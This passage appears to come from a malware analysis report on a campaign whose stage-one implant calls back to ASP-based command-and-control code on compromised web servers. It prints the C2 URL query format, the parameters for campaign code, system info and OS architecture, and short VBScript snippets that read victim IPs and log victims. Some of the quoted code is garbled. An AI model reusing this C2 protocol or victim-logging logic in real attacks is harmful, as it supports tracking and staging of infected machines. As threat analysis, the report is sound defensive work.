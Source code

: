 

Parameter 
Description


NED
Campaign code embedded in DOTM Macro


GL
System Information


HL
Flag to indicate OS architecture (32 or 64 bits)



The URL query string is sent to the C2 server in the following format.



http://hostname/inc-controller-news.asp?ned=campaigncode&gl=base64encodeddata&hl=0



Further, code exists to get the infected victim’s IP address; this information is used to check if the IP address is allowed (get the second stage) or if the IP address has been blocked (prevent second stage). As mentioned previously, the addition of the victim’s IP address into the fake MP3 files is likely performed manually through identification of incoming connections through the stage 1 implant.



function getstripaddress()
on error resume next
dim ip
ip = request.servervariables(“http_client_ip”)
if ip = “”
then ip = request.servervariables(“http_x_forwarded_for”)
if ip = “”
then ip = request.servervariables(“remote_addr”)
end if end
if
getstripaddress = ip
end function



The full code of the logic gets the IP address for the connecting client machine and writing victim entries to a log file. In breaking down this code we can see different functionality is used that is most interesting. These log files are also stored within the WWW root of the compromised server based on the variable strlogpath.
From the below code-snippet of the vbscript, we can see that the “gl” and “hl” parameters are used to query the system information from the victim (gl) and the OS architecture (32 or 64 bits):



strinfo=replace(request.form(“gl “),””,” + “):strosbit=replace(request.form(“hl “),””,” + “)



Victim Logging
The adversary keeps track of victims through logging functionality that is implemented into the server-side ASP code. Furthermore, as described above, the backend server code has the ability to perform victim logging based on first stage implant connections. This log file is stored in the WWW root directory on the compromised C2 server. The following code snippet will write data to a log file in the format [date, IP Address, User Agent, Campaign Code (NED), System Info (GL), OS Architecture (HL)].
